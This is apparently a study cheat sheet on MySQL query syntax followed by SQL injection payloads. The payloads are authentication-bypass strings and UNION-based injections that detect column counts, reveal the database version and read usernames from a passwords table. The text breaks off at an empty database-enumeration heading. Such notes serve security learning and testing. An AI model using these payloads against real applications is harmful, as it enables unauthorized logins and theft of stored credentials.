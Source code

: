 ## Output

| Command | Description |
|---------|-------------|
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence

1. Division (/), Multiplication (*), and Modulus (%)
2. Addition (+) and Subtraction (-)
3. Comparison (=, >, <, <=, >=, !=, LIKE)
4. NOT (!)
5. AND (&&)
6. OR (||)

## SQL Injection

### Payloads

#### Auth Bypass

| Payload | Description |
|---------|-------------|
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |

#### Auth Bypass Payloads

| Payload | Description |
|---------|-------------|
| `' order by 1-- -` | Detect number of columns using order by |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |

#### DB Enumeration
